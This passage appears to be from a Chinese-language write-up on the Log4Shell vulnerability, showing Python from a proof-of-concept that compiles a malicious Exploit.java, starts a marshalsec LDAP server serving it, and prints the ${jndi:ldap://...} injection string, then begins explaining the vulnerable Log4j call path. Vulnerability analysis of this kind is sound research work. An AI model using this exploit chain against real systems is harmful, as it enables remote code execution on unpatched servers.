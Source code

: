 ```python
    }
}
""" % (userip, lport)

    # writing the exploit to Exploit.java file

    p = Path("Exploit.java")

    try:
        p.write_text(program)
        subprocess.run([os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/javac"), str(p)])
    except OSError as e:
        print(Fore.RED + f'[-] Something went wrong {e}')
        raise e
    else:
        print(Fore.GREEN + '[+] Exploit java class created success')
```

ldap_server函数

- 启动ldap服务器，并绑定到HTTP服务器上的恶意类Exploit（lport参数实际传入的是webport也就是8000）

```python
def ldap_server(userip: str, lport: int) -> None:
    sendme = "${jndi:ldap://%s:1389/a}" % (userip)
    print(Fore.GREEN + f"[+] Send me: {sendme}\n")

    url = "http://{}:{}/#Exploit".format(userip, lport)
    subprocess.run([
        os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/java"),
        "-cp",
        os.path.join(CUR_FOLDER, "target/marshalsec-0.0.3-SNAPSHOT-all.jar"),
        "marshalsec.jndi.LDAPRefServer",
        url,
    ])
```

## 漏洞成因

漏洞的关键代码在`org.apache.logging.log4j.core.pattern.MessagePatternConverter#format`中，这之前的函数调用栈如下

- 由于`AbstractLogger#logMessage`方法就包含了漏洞信息，因此所有调用该方法的info/error/warn都可以作为漏洞触发点
